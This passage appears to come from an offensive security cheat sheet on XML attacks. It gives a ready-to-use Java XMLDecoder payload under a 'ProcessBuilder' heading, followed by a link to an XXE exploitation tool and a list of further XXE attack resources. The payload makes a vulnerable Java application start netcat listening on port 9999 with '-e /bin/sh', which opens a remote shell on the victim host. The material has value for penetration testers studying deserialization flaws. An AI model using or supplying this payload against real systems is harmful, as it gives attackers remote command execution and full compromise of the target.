 ### ProcessBuilder

```markup
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

## Tools

{% embed url="https://github.com/luisfontes19/xxexploiter" %}

## More resources

[https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)\
[https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)\
Extract info via HTTP using own external DTD: [https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/](https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/)\
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection)\
[https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4)\
[https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9](https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9)\
[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)\
[https://gosecure.github.io/xxe-workshop/#7](https://gosecure.github.io/xxe-workshop/#7)
